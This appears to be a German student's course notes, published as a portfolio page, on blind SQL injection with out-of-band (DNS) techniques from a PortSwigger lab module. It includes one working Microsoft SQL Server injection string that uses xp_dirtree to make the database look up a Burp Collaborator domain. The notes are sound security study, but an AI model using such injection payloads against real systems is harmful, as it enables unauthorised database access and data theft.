

repository: IamNico42/portfolio · page: studium/Cyber-Security Praxissemester/Portswigger-Academy/SQLi/6. Blind SQL Injection OAST Technik/index.html · generator: mkdocs

---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/PSS
---
## Was sind Out of Band Techniken

Manchmal führen Apps die SQL Anragen auf einem extra Thread aus. Also es wird unabhängig von der User Response ausgeführt und somit helfen die bisherigen Methoden nicht.
In manchen Situationen lassen sich solche Out Of Band Interaktionen an ein System welches wir kontrollieren triggern wodurch man dann wiederum an Informationen durch das triggern der SQL Query gelangt

Eine Anzahl an network protokolle können genutzt werden, aber am meisten typisch sind DNS Protokolle. Viele kommerzielle Netzwerke erlauben DNS Queries.

Der einfachste Weg ist es den Burp Collaborator dafür zu verwenden. Der Server bietet eine Vielzahl von Netzwerkprotokollen inkl. DNS.


Unter Microsoft SQL Server kann man mit folgenden Befehl eine Anfrage an eine eigene Domain triggern.

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

Das sorgt dann dafür, dass die Datenbank einen loopkup an folgende Domain ausführt.
`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`
